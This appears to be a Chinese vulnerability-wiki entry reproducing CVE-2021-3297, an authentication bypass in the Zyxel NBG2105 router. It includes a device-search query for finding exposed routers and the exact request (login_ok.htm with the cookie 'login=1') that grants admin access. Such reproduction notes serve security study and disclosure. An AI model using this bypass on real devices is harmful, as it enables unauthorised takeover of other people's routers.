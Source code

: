 # Zyxel NBG2105 身份验证绕过 CVE-2021-3297

## 漏洞描述

Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆

## 漏洞影响

<a-checkbox checked>Zyxel NBG2105</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ZyXEL-NBG2105"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/zyxel-5.png)



其中前端文件 `/js/util_gw.js` 存在前端对 Cookie login参数的校验



![img](/assets/PeiQi-Wiki/img/zyxel-6.png)



可以看到检测到 Cookie中的 `login=1` 则跳转 home.html



```plain
function setCookie() //login_ok.htm use
{
	document.cookie="login=1";
	MM_goToURL('parent', 'home.htm');
}
```



请求如下则会以管理员身份跳转到 `home.htm页面`



```plain
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```



![img](/assets/PeiQi-Wiki/img/zyxel-7.png)



## 